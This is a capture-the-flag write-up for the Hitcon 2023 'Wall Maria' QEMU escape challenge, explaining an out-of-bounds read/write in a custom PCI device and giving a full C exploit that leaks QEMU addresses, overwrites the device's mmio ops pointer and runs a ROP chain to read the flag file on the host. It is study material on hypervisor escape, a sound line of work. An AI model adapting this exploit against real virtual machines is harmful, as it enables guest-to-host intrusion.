

## Full Chain - Wall Maria

was a part of the full chain exploits in Hitcon 2023 Quals.

It is a very basic qemu escape challenge, that could be interesting as an introduction to qemu escape challenges.

I did not have time to work on it during the ctf, so I did it after, just because I like qemu escapes.

### 1 - So what is the vulnerability?

The challenge is a qemu pci driver, the author provided us the source code, so the reverse will be quick.

Basically it's a basic qemu pci driver named `maria`, which initialize a structure like this:

```c
#define BUFF_SIZE 0x2000

typedef struct {
    PCIDevice pdev;
    struct {
                uint64_t src;
        uint8_t off;
        } state;
    char buff[BUFF_SIZE];
    MemoryRegion mmio;
} MariaState;
```

you can communicate with the driver via mmio memory mapped registers,

you can see the device and the memory mapped zone below:

```sh
/root # lspci
00:01.0 Class 0601: 8086:7000
00:04.0 Class 0200: 8086:100e
00:00.0 Class 0600: 8086:1237
00:01.3 Class 0680: 8086:7113
00:03.0 Class 0200: 8086:100e
00:01.1 Class 0101: 8086:7010
00:02.0 Class 0300: 1234:1111
00:05.0 Class 00ff: 1234:dead   <--- the device maria
/root # cat /sys/devices/pci0000:00/0000:00:05.0/resource 
0x00000000febd0000 0x00000000febdffff 0x0000000000040200
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
```

the vulnerability is quick to spot too..

it's in the `maria_mmio_read`and `maria_mmio_write` functions,  that are called when you read or write in the memory mapped region.

basically you can transfer memory between a provided memory buffer, and the driver internal buffer defined in `MariaState` structure which has a fixed size of 0x2000 bytes.

You can define the address of your memory buffer, and the offset in the `MariaState->buff[]` from which the driver will read or write.

If you look at `maria_mmio_read`function for example:

```c
static uint64_t maria_mmio_read(void *opaque, hwaddr addr, unsigned size) {
    MariaState *maria = (MariaState *)opaque;
    uint64_t val = 0;
    switch (addr) {
        case 0x00:
            cpu_physical_memory_rw(maria->state.src, &maria->buff[maria->state.off], BUFF_SIZE, 1);
            val = 0x600DC0DE;
            break;
        case 0x04:
            val = maria->state.src;
            break;
        case 0x08:
            val = maria->state.off;
            break;
        default:
            val = 0xDEADC0DE;
            break;
    }
    return val;
}
```

The problem is that the read size is fixed to `BUFF_SIZE` (0x2000 bytes), so if you increased the offset, you will have an oob read to the structure just next our buffer: `MemoryRegion mmio`

The offset is an unsigned byte so we will at maximum have an oob read or write of 0xff bytes, but as the buffer need to be 0x10 aligned, in practice we will use an offset of `0xf0`.

### 2 - So What's the plan ??

Well the plan is simple, we first use the oob read to leak pointers of the `MemoryRegion mmio`, to calculate qemu binary mapping address, and the `MariaState`structure address in memory.

Then we will use the oob write to modify `mmio`structure.

Let's have a look to the beginning of `MemoryRegion mmio`structure:



you can see the `mmio.ops` entry that points to another structure `maria_mmio_ops` that contains functions pointers to the `read`, `write` functions of the drivers.

So we can forge a fake `maria_mmio_ops` structure in the `maria->buff[]` and make `maria->mmio.ops` points to it. When we will write or read in the memory mapped region, our functions will be called instead of `maria_mmio_read`and ̀maria_mmio_write`.

The `maria->mmio.opaque` is interesting too, as it will be passed in `rdi` as the first argument of the read/write function, so with it, we will control `rdi`

and we will control `rsi`too, this is the offset at which we write from beginning of memory mapped zone.

and `rdx` will be the value that we write to this offset.

So we can control the 3 arguments of the read/write function that will be called.

The qemu run with the sandbox, so we can not use execve, so we will use `open` , `read`, `write`to just dump the flag.

The author of the challenge (and my teammate too..), use a call to `mprotect` to map the buffer `RWX`, and a jump to a shellcode to dump the flag..

For changing a bit , I will use a gadget to pivot stack on `rdi`pointed memory, and will dump the flag with a small ROP payload. In fact it pivot on `rax` which contains  the same value than `rdi`, as it is used to populate `rdi`before calling...

```c
gadget = progbase + 0x0000000000b1088a; /* push rax ; pop rsp ; mov eax, 1 ; pop rbp ; ret */
```

Here is the exploit to do that:

```c
#include <stdio.h>
#include <string.h>
#include <fcntl.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <unistd.h>
#include <sys/io.h>
#include <sys/types.h>
#include <inttypes.h>

unsigned char *mmio_mem;

#define PAGE_SIZE 0x1000

void mmio_write(uint32_t addr, uint32_t value) {
    *(uint32_t *)(mmio_mem + addr) = value;
}

uint32_t mmio_read(uint32_t addr) {
    return *(uint32_t *)(mmio_mem + addr);
}

void set_src(uint32_t value) {
    mmio_write(0x04, value);
}

void set_off(uint32_t value) {
    mmio_write(0x08, value);
}

void get_buff() {
    mmio_read(0x00);
}

void set_buff() {
    mmio_write(0x00, 0);
}

uint64_t gva2gpa(void *addr){
    uint64_t page = 0;
    int fd = open("/proc/self/pagemap", O_RDONLY);
    if (fd < 0) {
        fprintf(stderr, "[!] open error in gva2gpa\n");
        exit(1);
    }
    lseek(fd, ((uint64_t)addr / PAGE_SIZE) * 8, SEEK_SET);
    read(fd, &page, 8);
    return ((page & 0x7fffffffffffff) * PAGE_SIZE) | ((uint64_t)addr & 0xfff);
}

int main() {
    int mmio_fd = open("/sys/devices/pci0000:00/0000:00:05.0/resource0", O_RDWR | O_SYNC);
    if (mmio_fd == -1) {
        fprintf(stderr, "[!] Cannot open /sys/devices/pci0000:00/0000:00:05.0/resource0\n");
        exit(1);
    }
    mmio_mem = mmap(NULL, PAGE_SIZE * 4, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_mem == MAP_FAILED) {
        fprintf(stderr, "[!] mmio error\n");
        exit(1);
    }
    printf("[*] mmio done\n");

    // Set huge page
    system("sysctl vm.nr_hugepages=32");
    system("cat /proc/meminfo | grep -i huge");

    char *buff;
    uint64_t buff_gpa;
    while (1) {
        buff = mmap(0, 2 * PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS | MAP_NONBLOCK, -1, 0);
        if (buff < 0) {
            fprintf(stderr, "[!] cannot mmap buff\n");
            exit(1);
        }
        memset(buff, 0, 2 * PAGE_SIZE);
        buff_gpa = gva2gpa(buff);
        uint64_t buff_gpa_1000 = gva2gpa(buff + PAGE_SIZE);
        if (buff_gpa + PAGE_SIZE == buff_gpa_1000) {
            break;
        }
    }
	printf("[*] buff virtual address = %p\n", buff);
	printf("[*] buff physical address = %p\n", (void *)buff_gpa);

	set_src(buff_gpa);
	set_off(0xf0);
	get_buff();

	uint64_t progbase;
	progbase = *(unsigned long long *)(buff+(0x2000-0xf0)+0x88) - 0x81dae0;
	printf("[*] qemu binary program base = %p\n", (void *)progbase);

	uint64_t mariastate;
        mariastate = *(unsigned long long *)(buff+(0x2000-0xf0)+0x20);
        printf("[*] MariaState address = %p\n", (void *)mariastate);

	// gadget to pivot on rax (which contains maria->opaque
	uint64_t gadget = progbase + 0x0000000000b1088a; /* push rax ; pop rsp ; mov eax, 1 ; pop rbp ; ret */
	uint64_t pop_rdi = progbase + 0x0000000000632c5d; /* pop rdi ; ret */
	uint64_t pop_rsi = progbase + 0x00000000004d4db3; /* pop rsi ; ret */
	uint64_t pop_rdx = progbase + 0x000000000047f5c8; /* pop rdx ; ret */
	uint64_t pop_rax = progbase + 0x00000000003643a4; /* pop rax ; ret */
	uint64_t syscall = progbase + 0x00000000004a22ec; /* syscall; add cl, cl; ret; */
	uint64_t xchg_edi_eax = progbase + 0x00000000003584d5; /* xchg edi, eax ; ret */
	uint64_t xchg_edx_eax = progbase + 0x0000000000309c8a; /* xchg edx, eax ; ret */


    uint64_t *rop = (buff+(0x2000-0xf0)-0x700);
    *(unsigned long long *)(buff+(0x2000-0xf0)+0x48) =  ((mariastate+0x2a30)-0x800);	// replace maria->mmio by our gadget
    *(unsigned long long *)(buff+(0x2000-0xf0)+0x50) =  ((mariastate+0x2a30)-0x700);	// place to put our ROP
    *(unsigned long long *)(buff+(0x2000-0xf0)-0x800) = gadget;
    *(unsigned long long *)(buff+(0x2000-0xf0)-0x7f8) = gadget;

	strcpy(buff+(0x2000-0xf0)-0x500, "/home/user/flag");
	/*-------------------------------------  our ROP, in majesty... */
	/* open("/home/user/flag", O_RDONLY) */
	*rop++ = 0xdeadbeef;
	*rop++ = pop_rdi;
	*rop++ = ((mariastate+0x2a30)-0x500); 
	*rop++ = pop_rsi;
	*rop++ = 0;
	*rop++ = pop_rax;
	*rop++ = 2;
	*rop++ = syscall;
	/* read file */
	*rop++ = xchg_edi_eax;
	*rop++ = pop_rsi;
	*rop++ = ((mariastate+0x2a30)-0x400);
	*rop++ = pop_rdx;
	*rop++ = 0x100;
	*rop++ = pop_rax;
	*rop++ = 0;
	*rop++ = syscall;
	/* write content to stdout */
	*rop++ = xchg_edx_eax;
	*rop++ = pop_rdi;
	*rop++ = 1;
	*rop++ = pop_rax;
	*rop++ = 1;
	*rop++ = syscall;
	/* exit */
	*rop++ = pop_rax;
	*rop++ = 60;
	*rop++ = syscall;

	set_buff();
	set_off(0);

    munmap(mmio_mem, PAGE_SIZE*4);
    close(mmio_fd);
}
```

and here is the result of the exploit running on the remote instance:


*nobodyisnobody still hacking..*
